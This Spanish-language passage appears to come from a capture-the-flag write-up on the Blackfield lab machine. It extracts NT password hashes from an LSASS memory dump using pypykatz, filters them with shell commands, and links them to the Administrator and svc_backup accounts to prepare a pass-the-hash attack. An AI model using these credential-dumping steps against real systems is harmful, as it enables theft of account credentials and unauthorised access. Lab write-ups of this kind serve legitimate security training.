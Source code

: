 ```bash
❯ unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP               
❯ ls
lsass.DMP 
```

Este archivo se puede Dumpear y extraer los hash NT de los usuarios, para posteriormente hacer PassTheHash. Para dumpearlo podemos usar herrmamientas como mimikatzs, yo voy a usar pypykatz

```bash
❯ pypykatz lsa minidump lsass.DMP | tee dumping
```

Si miramos el contenido de dumping podemos ver un montón de entradas, yo solo quiero los hash NT lo siguiente:

```bash
❯ cat dumping | grep "NT:" | cut -d ':' -f2 > nt-hash
❯ catn nt-hash
 9658d1d1dcd9250115e2205d9f48400d
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 9658d1d1dcd9250115e2205d9f48400d
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
 b624dc83a27cc29da11d9bf25efea796
```

Podemos ver lineas repetidas, vamos a eliminar las repeticiones:

```bash
❯ sort nt-hash | uniq
 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
 9658d1d1dcd9250115e2205d9f48400d
 b624dc83a27cc29da11d9bf25efea796
```

Si miramos los propietarios de los hash podemos ver que les pertenece:

```bash
luid 153705
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
```
